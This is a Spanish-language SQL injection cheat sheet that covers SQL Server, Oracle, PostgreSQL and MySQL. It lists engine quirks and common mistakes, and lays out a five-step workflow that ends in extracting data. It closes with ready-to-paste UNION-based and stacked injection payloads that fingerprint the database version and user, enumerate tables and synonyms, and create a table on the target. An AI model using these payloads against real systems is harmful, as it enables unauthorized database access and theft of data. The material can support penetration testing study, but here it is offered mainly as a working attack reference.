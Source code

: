 #### SQL Server
- ✅ INFORMATION_SCHEMA compatible
- ✅ `GETDATE()` para timestamps
- ✅ Enumeración estándar

#### Oracle
- ⚠️ **Estrictez de tipos crítica**
- 🔑 **Sinónimos ocultan ubicación real**
- 🎯 **Enumeración empírica esencial**
- 📊 **ALL_TAB_COLUMNS para esquemas cruzados**

### 🚨 Errores Comunes a Evitar

1. **Oracle**: No asumir nombres de tablas estándar
2. **PostgreSQL**: Olvidar casting de tipos
3. **General**: No validar número de columnas primero
4. **Oracle**: Ignorar sinónimos en la enumeración

### 🔄 Flujo de Trabajo Recomendado

1. **Identificar motor** → Información del sistema
2. **Descubrir tipos** → Error-based injection (Oracle)
3. **Enumerar metadatos** → Tablas, vistas, sinónimos
4. **Mapear estructura** → Columnas por tabla
5. **Extraer datos** → Payload final optimizado

---

## 📋 Payloads de Referencia Rápida

### Información del Sistema
```sql
-- MySQL/SQL Server
' UNION SELECT 1,@@version,DATABASE(),USER(),NOW() -- 

-- PostgreSQL
' UNION SELECT 1,version(),'postgresql',current_user,NOW() -- 

-- Oracle
' UNION SELECT 999,USER,'oracle',USER,SYSDATE FROM DUAL -- 
```

### Enumeración de Tablas
```sql
-- MySQL/SQL Server
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,'enum',NOW() FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() -- 

-- PostgreSQL (Stacked)
'; CREATE TABLE temp_enum AS SELECT tablename FROM pg_tables WHERE schemaname='public'; -- 

-- Oracle (Sinónimos)
' UNION SELECT 999,SYNONYM_NAME,TABLE_NAME,'synonyms',SYSDATE FROM USER_SYNONYMS -- 
```
